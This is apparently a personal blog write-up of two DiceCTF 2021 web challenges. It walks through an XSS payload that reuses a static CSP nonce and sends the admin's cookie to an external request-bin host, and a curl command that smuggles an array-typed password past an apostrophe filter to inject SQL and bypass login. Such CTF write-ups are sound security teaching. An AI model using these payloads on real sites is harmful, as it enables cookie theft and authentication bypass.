

This weekend, I participated in [DiceCTF 2021][dicectf] just for fun. I wanted to write about a couple of challenges that I found interesting, along with the processes I went through to solve them.

<h2 id="babier-csp">Babier CSP</h2>

This challenge requires us to steal a cookie set on an admin bot. It provides us with the source of a backend that both serves a simple page and generates the secret that the admin sets its cookie to. From a quick glance at the page that gets served, it seems that an [XSS attack][xss] might be viable:

```js {8,13,16,26-27}
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
})
```

From the above-highlighted points of interest, two things are immediately clear:

1. If the page is loaded with a `name` query param present, it will be injected directly into the source.
2. A `NONCE` constant is generated once at application startup and set as the nonce for the content security policy `script-src` directive.

If you try visiting the page with a crafted query such as <https://babier-csp.dicec.tf/?name=%3C/h1%3E%3Cem%3EUh%20oh...%3C/em%3E%3Cbr%3E>, you'll be able to see the potential for exploitation.


If you try the same thing with script tags, however, you'll receive a CSP error in the console. Fortunately, because the `NONCE` constant is consistent between page loads, you can simply tack it on to each script tag using the `nonce` attribute.

From here, it's evident that we can steal the cookie from the admin bot by getting it to visit the XSS vulnerable page. A simple payload like the following should do:

```html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">
  document.location = "https://example.x.pipedream.net/?" + document.cookie;
</script>
```

Now just spin up a new [RequestBin][requestbin], URL encode your payload, and submit it to the admin bot.



There's our secret! As per the source code, we should use it as a route name to get the flag: `dice{web_1s_a_stat3_0f_grac3_857720}`.

## Missing Flavortext

This was an interesting challenge with a clear focus on [SQL injection][sqli]. Similar to [Babier CSP](#babier-csp), we're given a simple page to visit and the source of the backend that serves it. The page contains a login form that posts data to a `/login` route. If you were to provide the correct credentials, it would send back the flag. Unfortunately, since the password is randomized at application startup, we're going to need to find a different way in...

```js {13-16,33-35,38-41}
const crypto = require('crypto');
const db = require('better-sqlite3')('db.sqlite3')

// remake the `users` table
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  username TEXT,
  password TEXT
);`);

// add an admin user with a random password
db.exec(`INSERT INTO users (username, password) VALUES (
  'admin',
  '${crypto.randomBytes(16).toString('hex')}'
)`);

const express = require('express');
const bodyParser = require('body-parser');

const app = express();

// parse json and serve static files
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });

  // incorrect login
  return res.redirect('/');
});

app.listen(3000);
```

There are two key issues in this code that we're going to exploit. The first is in how the SQL query is created on lines 38–41. Interpolating raw user inputs in that fashion is a massive security hole. The only "sanitization" applied to it is in the few lines before, where the credentials are rejected if either one contains an apostrophe character. At a first glance, this seems to prevent us from executing the standard SQLi technique of escaping from an input and modifying the query that way. Fortunately, the second key issue makes it possible:

```js
app.use(bodyParser.urlencoded({ extended: true }));
```

By opting into the extended mode of the URL-encoded body-parser middleware, the server will now accept extended input types such as arrays and objects. If we modify the username or password in such a way, we can alter the behavior of the `v.includes('\'')` method call to work in our favor.

```bash
curl -X "POST" "https://missing-flavortext.dicec.tf/login" \
  --data-urlencode "username=admin" \
  --data-urlencode "password[]=' OR 1 --"
```

Because arrays with a single element are cleanly converted to strings in JavaScript, we'll end up skipping the apostrophe check while still containing one. This will lead to our malformed payload being constructed as we want:

```sql
SELECT id FROM users WHERE
  username = 'admin' AND
  password = '' OR 1 --'
```

This will correctly select the id of the admin user, skipping the intended credential check and returning the flag: `dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}`.

[dicectf]: https://ctf.dicega.ng
[requestbin]: https://requestbin.com
[sqli]: https://owasp.org/www-community/attacks/SQL_Injection
[xss]: https://owasp.org/www-community/attacks/xss/
